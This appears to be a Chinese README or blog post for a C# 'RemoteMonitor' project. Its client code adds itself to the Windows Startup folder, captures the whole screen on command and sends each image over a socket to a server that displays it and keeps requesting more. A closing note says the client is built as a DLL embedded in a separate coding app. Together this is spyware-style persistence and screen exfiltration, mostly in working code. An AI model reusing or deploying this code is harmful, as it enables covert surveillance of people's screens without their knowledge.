 ### Client:
**在Windows自启动目录创建快捷方式实现开机自启动**

    private Boolean setAutoStart()
    {
        List<String> ShortcutPaths = getQuickFromFolder(SysStartPath, AppPath);
        if(ShortcutPaths.Count > 1)
        {
            for(int i = 1; i < ShortcutPaths.Count; i++)
            {
                DeleteFileOrFolder(ShortcutPaths[i]);
            }
        }
        else if (ShortcutPaths.Count < 1) 
        {
            if(!CreateShortcut(SysStartPath, QKName, AppPath))
            {
                return false;
            }
        }
        return true
    }
**获取系统自启动目录路径**

    private String SysStartPath { get { return Environment.GetFolderPath(Environment.SpecialFolder.Startup); } }
**获取程序路径**

    private String AppPath
    {
        get
        {
            return Process.GetCurrentProcess().MainModule.FileName;
        } 
    }  


**getQuickFromFolder函数体**

    /// <summary>
    /// Get Quick Link File whose Target Path is the Value of the Param named "targetPath" from a Folder
    /// </summary>
    /// <param name="dir"></param>
    /// <param name="targetPath"></param>
    /// <returns></returns>
    private List<String> getQuickFromFolder(String dir,String targetPath) 
    {
        List<String> vs = new List<String>();
        vs.Clear();
        String temp = String.Empty;
        String[] files = Directory.GetFiles(dir, "*.lnk");
        if (files.Equals(null) || files.Length < 1)
        {
            return vs;
        }
        for(int i = 0; i < files.Length; i++)
        {
            temp = getAppPath(files[i]);
            if (temp.Equals(targetPath))
            {
                vs.Add(files[i]);
            }
        }
        return vs;
    } 
**getAppPath函数体**

    private String getAppPath(String shortcutPath)
    {
        if (System.IO.File.Exists(shortcutPath))
        {
            WshShell shell = new WshShell();
            IWshShortcut shortcut = shell.CreateShortcut(shortcutPath);
            return shortcut.TargetPath;
        }
        return "";
    }
**CreateShortcut函数体**

    private Boolean CreateShortcut(String dir,String name,String target_path)
    {
        try
        {
            if (!Directory.Exists(dir))
            {
                Directory.CreateDirectory(dir);
            }
            String shortcutPath = Path.Combine(dir, String.Format("{0}.lnk", name));
            WshShell shell = new IWshRuntimeLibrary.WshShell();
            IWshShortcut wshShortcut = shell.CreateShortcut(shortcutPath) as IWshShortcut;
            wshShortcut.TargetPath = target_path;
            wshShortcut.WorkingDirectory = Path.GetDirectoryName(target_path);
            wshShortcut.WindowStyle = 1;
            wshShortcut.Save();
            return true;
        }
        catch(Exception ex)
        {
            ErrMsg += ex.Message + ';';
        }
        return false;
    }
**获取分辨率**

    private static int SW { get { return Screen.PrimaryScreen.Bounds.Width; } }
    private static int SH { get { return Screen.PrimaryScreen.Bounds.Height; } }
**截图并发送给服务器**

    case "B":
    {
        Bitmap bmp = new Bitmap(SW, SH);
        using (Graphics graphics = Graphics.FromImage(bmp))
        {
            graphics.CopyFromScreen(0, 0, 0, 0, new Size(SW, SH));
        }
        socket.Send(Bitmap2Byte(bmp));
        break;
    }
**Bitmap2Byte函数体**

    private static byte[] Bitmap2Byte(Bitmap bitmap)
    {
        using (MemoryStream stream = new MemoryStream())
        {
            bitmap.Save(stream, ImageFormat.Jpeg);
            byte[] data = new byte[stream.Length];
            stream.Seek(0, SeekOrigin.Begin);
            stream.Read(data, 0, Convert.ToInt32(stream.Length));
            return data;
        }
    }

### Server:
**接收Client发送的图片的byte数组，再把byte数组转为MemoryStream，再转为图片并且更新UI控件**

    private static void ReceiveCallBack(IAsyncResult ar)
    {
        Socket socket = ar.AsyncState as Socket;
        try
        {
            int count = socket.EndReceive(ar);
            MemoryStream ms = new MemoryStream(sf.buffer, 0, count);
            sf.pic.Image = Image.FromStream(ms);//pic是PictureBox控件
            ms.Close();
            socket.Send(Encoding.UTF8.GetBytes("B"));
        }catch(Exception ex)
        {
            MessageBox.Show(ex.Message);
            return;
        }
        socket.BeginReceive(sf.buffer, 0, sf.buffer.Length, SocketFlags.None, ReceiveCallBack, socket);
    }


**具体项目请访问**：[GitHub](https://github.com/7emotions/RemoteMonitor.git)

PS:  PCoder是一个编码的桌面应用，我把客户端写成Dll动态库在PCoder里调用。_
